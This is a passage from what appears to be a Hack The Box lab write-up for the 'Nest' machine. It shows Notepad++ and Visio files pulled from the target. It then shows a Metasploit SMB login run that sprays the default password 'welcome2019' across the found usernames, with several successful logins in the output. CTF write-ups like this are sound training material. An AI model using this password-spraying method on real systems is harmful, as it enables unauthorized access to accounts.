     root@nidus:/opt/htb/machines/nest/NotepadPlusPlus# cat config.xml
      <?xml version="1.0" encoding="Windows-1252" ?>
      <NotepadPlus>
        ..
          <!-- The History of opened files list -->
          <FindHistory nbMaxFindHistoryPath="10" nbMaxFindHistoryFilter="10" nbMaxFindHistoryFind="10" nbMaxFindHistoryReplace="10" matchWord="no" matchCase="no" wrap="yes" directionDown="yes" fifRecuisive="yes" fifInHiddenFolder="no" dlgAlwaysVisible="no" fifFilterFollowsDoc="no" fifFolderFollowsDoc="no" searchMode="0" transparencyMode="0" transparency="150">
              <Find name="text" />
              <Find name="txt" />
              <Find name="itx" />
              <Find name="iTe" />
              <Find name="IEND" />
              <Find name="redeem" />
              <Find name="activa" />
              <Find name="activate" />
              <Find name="redeem on" />
              <Find name="192" />
              <Replace name="C_addEvent" />
          </FindHistory>
          <History nbMaxFile="15" inSubMenu="no" customLength="-1">
              <File filename="C:\windows\System32\drivers\etc\hosts" />
              <File filename="\\HTB-NEST\Secure$\IT\Carl\Temp.txt" />
              <File filename="C:\Users\C.Smith\Desktop\todo.txt" />
          </History>
      </NotepadPlus>

    root@nidus:/opt/htb/machines/nest/Atlas# cat Temp.XML
      <?xml version="1.0" encoding="UTF-8"?>
      <bs:Brainstorm xmlns:bs="http://schemas.microsoft.com/visio/2003/brainstorming"><bs:topic bs:TopicID="T1"><bs:text>Marketing Plan</bs:text><bs:topic bs:TopicID="T1.1"><bs:text>Product</bs:text><bs:prop><bs:id>1</bs:id><bs:label>Assigned to</bs:label><bs:value>Deanna Meyer</bs:value></bs:prop><bs:topic bs:TopicID="T1.1.1"><bs:text>New features</bs:text></bs:topic><bs:topic bs:TopicID="T1.1.2"><bs:text>Competitive strengths</bs:text></bs:topic><bs:topic bs:TopicID="T1.1.3"><bs:text>Competitive weaknesses</bs:text></bs:topic></bs:topic><bs:topic bs:TopicID="T1.2"><bs:text>Placement</bs:text><bs:prop><bs:id>1</bs:id><bs:label>Assigned to</bs:label><bs:value>Jolie Lenehan</bs:value></bs:prop></bs:topic><bs:topic bs:TopicID="T1.3"><bs:text>Price</bs:text><bs:prop><bs:id>1</bs:id><bs:label>Assigned to</bs:label><bs:value>Robert O'Hara</bs:value></bs:prop></bs:topic><bs:topic bs:TopicID="T1.4"><bs:text>Promotion</bs:text><bs:prop><bs:id>1</bs:id><bs:label>Assigned to</bs:label><bs:value>Robert O'Hara</bs:value></bs:prop><bs:topic bs:TopicID="T1.4.1"><bs:text>Advertising</bs:text></bs:topic><bs:topic bs:TopicID="T1.4.2"><bs:text>Mailings</bs:text></bs:topic><bs:topic bs:TopicID="T1.4.3"><bs:text>Trade shows</bs:text></bs:topic></bs:topic></bs:topic><bs:association bs:topic1="T1.4" bs:topic2="T1.3"/></bs:Brainstorm>

4. Add the new found users to our user-list and scan again using msf and default password 'welcome2019'
    msf5 auxiliary(scanner/smb/smb_login) > run
    [*] 10.10.10.178:445      - 10.10.10.178:445 - Starting SMB login bruteforce
    [-] 10.10.10.178:445      - 10.10.10.178:445 - Failed: '.\Administrator:welcome2019',
    [-] 10.10.10.178:445      - 10.10.10.178:445 - Failed: '.\C.Smith:welcome2019',
    [+] 10.10.10.178:445      - 10.10.10.178:445 - Success: '.\L.Frost:welcome2019'
    [+] 10.10.10.178:445      - 10.10.10.178:445 - Success: '.\R.Thompson:welcome2019'
    [+] 10.10.10.178:445      - 10.10.10.178:445 - Success: '.\TempUser:welcome2019'
    [+] 10.10.10.178:445      - 10.10.10.178:445 - Success: '.\Carl:welcome2019'
    [+] 10.10.10.178:445      - 10.10.10.178:445 - Success: '.\D.Meyer:welcome2019'
    [+] 10.10.10.178:445      - 10.10.10.178:445 - Success: '.\J.Lenehan:welcome2019'
    [+] 10.10.10.178:445      - 10.10.10.178:445 - Success: '.\R.Ohara:welcome2019'
    [*] nest.htb:445          - Scanned 1 of 1 hosts (100% complete)
    [*] Auxiliary module execution completed

